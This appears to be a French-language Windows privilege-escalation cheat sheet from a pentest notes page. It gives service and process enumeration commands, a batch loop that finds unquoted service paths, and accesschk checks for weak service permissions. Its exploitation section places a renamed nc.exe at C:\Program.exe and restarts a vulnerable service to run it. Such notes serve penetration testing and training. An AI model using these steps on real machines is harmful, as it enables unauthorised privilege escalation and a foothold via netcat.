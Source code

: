 ### Services et processus
```batch
# Services en cours
sc query type=service state=all
net start
tasklist /svc

# Processus détaillés
wmic process get name,processid,parentprocessid,executablepath
tasklist /v

# Services avec chemins
wmic service get name,displayname,pathname,startmode
```

## ⚙️ Services Vulnérables

### Services avec chemins non-quotés
```batch
# Recherche de chemins non-quotés
wmic service get name,displayname,pathname,startmode | findstr /i "Auto" | findstr /i /v "C:\Windows\\" | findstr /i /v """

# Vérification manuelle
for /f "tokens=2" %%A in ('sc query type^= service state^= all^| findstr SERVICE_NAME') do (
    for /f "tokens=3*" %%B in ('sc qc %%A ^| findstr BINARY_PATH_NAME') do (
        echo %%A: %%C %%D
    )
)
```

### Exploitation chemins non-quotés
```batch
# Si service avec chemin: C:\Program Files\Service\service.exe
# Créer payload dans:
# C:\Program.exe
# C:\Program Files\Service.exe

# Exemple avec nc.exe renommé
copy nc.exe "C:\Program.exe"
sc stop vulnerable_service
sc start vulnerable_service
```

### Services avec permissions faibles
```batch
# Vérifier permissions services avec accesschk
accesschk.exe -uwcqv "Authenticated Users" *
accesschk.exe -uwcqv "Users" *
accesschk.exe -uwcqv %USERNAME% *

# Services modifiables
accesschk.exe -uwcqv "Everyone" *
```

